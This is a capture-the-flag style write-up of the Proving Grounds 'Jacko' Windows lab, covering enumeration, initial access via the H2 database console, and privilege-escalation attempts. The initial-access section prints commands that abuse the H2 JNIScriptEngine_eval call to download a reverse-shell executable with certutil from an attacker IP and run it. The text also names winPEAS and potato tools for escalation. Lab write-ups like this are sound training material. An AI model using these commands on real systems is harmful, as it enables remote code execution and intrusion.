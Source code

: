 ```yaml
---
title: "Jacko"
date: 2025-06-20
categories:
  - Proving Grounds
  - Windows
tags:
  - Proving Grounds
  - Windows
---
```



# Jacko 🔸
<!-- more -->

## Enumeration

![](../assets/Pasted%20image%2020250405000100.png)

Web server is an `H2` Java database welcome page.

![](../assets/Pasted%20image%2020250404235800.png)

At port `8082` we have the console.

![](../assets/Pasted%20image%2020250404235947.png)

## Initial Access

We can access by clicking on connect.

Then we can execute arbitrary commands as seen in [https://www.exploit-db.com/exploits/49384](https://www.exploit-db.com/exploits/49384).

Once all commands are executed, we can upload a reverse shell and execute it.

```
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -split -f http://192.168.45.220/reverse.exe C:\\users\\tony\\reverse.exe").getInputStream()).useDelimiter("\\Z").next()');
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:\\users\\tony\\reverse.exe").getInputStream()).useDelimiter("\\Z").next()');
```

![](../assets/Pasted%20image%2020250405114833.png)

We have a restricted user, so reconstruct the path:

```
set PATH=%PATH%;C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0\;
```

Get the flag.

![](../assets/Pasted%20image%2020250405115147.png)

## Privilege Escalation

Transfer `winpeas`.

We find a `Paperstream IP` program that seems out of the ordinary.

Searching for exploit.

![](../assets/Pasted%20image%2020250405121034.png)

Generate the reverse shell DLL and transfer them to the host.

!!! bug

    It doesn't work with PaperStream method or abusing SeImpersonatePrivilege method (juicypotato, godpotato, printspoofer...)
